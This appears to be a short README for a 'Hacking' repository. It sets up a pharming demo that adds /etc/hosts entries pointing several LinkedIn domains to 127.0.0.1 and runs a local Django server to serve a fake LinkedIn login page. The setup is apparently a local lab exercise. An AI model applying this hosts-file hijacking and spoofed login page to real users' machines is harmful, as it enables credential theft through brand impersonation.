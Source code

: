 # Hacking
## Requirement
1. django 설치
2. python 설치

## DNS Fishing Code
```
sudo vi /etc/hosts
sudo sed -i '1i/127.0.0.1 linkedin.co.kr' /etc/hosts
sudo sed -i '1i/127.0.0.1 linkedin.com' /etc/hosts
sudo sed -i '1i/127.0.0.1 www.linkedin.com' /etc/hosts
sudo sed -i '1i/127.0.0.1 www.linkedin.co.kr' /etc/hosts
sudo sed -i '1i/127.0.0.1 kr.linkedin.co.kr' /etc/hosts
```

## Pharming WebSite Execution
```
cd ${Clone Path}
python manage.py runserver 127.0.0.1:80
```

## Modifiy host file
Refer to ./shellcode/README file


## Access Link
linkedin.co.kr/login

